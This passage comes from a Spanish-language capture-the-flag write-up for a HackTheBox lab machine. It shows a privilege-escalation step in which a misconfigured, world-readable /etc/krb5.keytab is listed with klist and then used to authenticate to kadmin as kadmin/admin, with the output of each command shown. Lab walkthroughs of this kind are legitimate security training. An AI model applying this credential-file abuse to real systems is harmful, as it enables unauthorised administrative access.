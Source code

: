 Sin embargo este */etc/krb5.keytab* solamente debería tener acceso el usuario root, sin embargo el usuario admin puede leerlo

```console
[admin@srv01 ~]$ file /etc/krb5.keytab
```

```
/etc/krb5.keytab: Kerberos Keytab file, realm=REALCORP.HTB, principal=host/srv01.realcorp.htb, type=1, date=Tue Dec  8 22:15:30 2020, kvno=2
```

intentamos conectarnos como *su* con ksu vemos que nos está solicitando la contraseña para el principal root@REALCORP.HTB

```console
[admin@srv01 ~]$ ksu
```

```
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
```

si listamos los principals que tenemos en admin con klist vemos lo siguiente

```console
[admin@srv01 ~]$ klist -k /etc/krb5.keytab
```

```
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```

si modificamos nuestros principals con kadmin

```console
[admin@srv01 ~]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```

```
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>